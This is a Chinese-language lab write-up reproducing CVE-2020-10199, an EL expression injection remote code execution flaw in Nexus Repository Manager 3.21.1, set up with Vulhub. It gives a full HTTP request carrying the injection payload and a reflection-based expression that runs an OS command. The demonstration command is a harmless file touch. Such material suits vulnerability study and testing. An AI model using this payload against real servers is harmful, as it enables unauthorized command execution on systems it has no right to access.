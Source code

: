 # Nexus Repository Manager 3 远程命令执行漏洞 CVE-2020-10199

## 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/360044882533-CVE-2020-10199-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10199/README.md
- https://github.com/jas502n/CVE-2020-10199

## 环境搭建

Vulhub执行如下命令启动Nexus Repository Manager 3.21.1：

```
docker-compose up -d
```

等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

该漏洞需要至少普通用户身份，所以我们需要使用账号密码`admin:admin`登录后台。

![image-20220226235800485](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202262358582.png)

## 漏洞复现

登录后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: your-vps-ip:8081
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
NX-ANTI-CSRF-TOKEN: 0.9514072635504696
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Origin: http://your-vps-ip:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://your-vps-ip:8081
Cookie: NX-ANTI-CSRF-TOKEN=0.9514072635504696; NXSESSIONID=d7f44169-393b-446a-815d-0eff3acf5a71
Connection: close
Content-Length: 203

{
  "name": "internal",
  "online": true,
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true
  },
  "group": {
    "memberNames": ["$\\A{233*233*233}"]
  }
}
```

![image-20220228160259183](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281602297.png)

> 发送数据包后，如果提示Anti cross-site request forgery token mismatch，需要在Headers中加入：
>
> ```
> NX-ANTI-CSRF-TOKEN: <your-csrf-token>
> ```

参考https://github.com/jas502n/CVE-2020-10199，使用表达式`$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/awesome_poc')}`即可成功执行任意命令。

![image-20220228160500100](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281605213.png)

命令`touch /tmp/awesome_poc`执行成功：

![image-20220228160528457](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281605519.png)
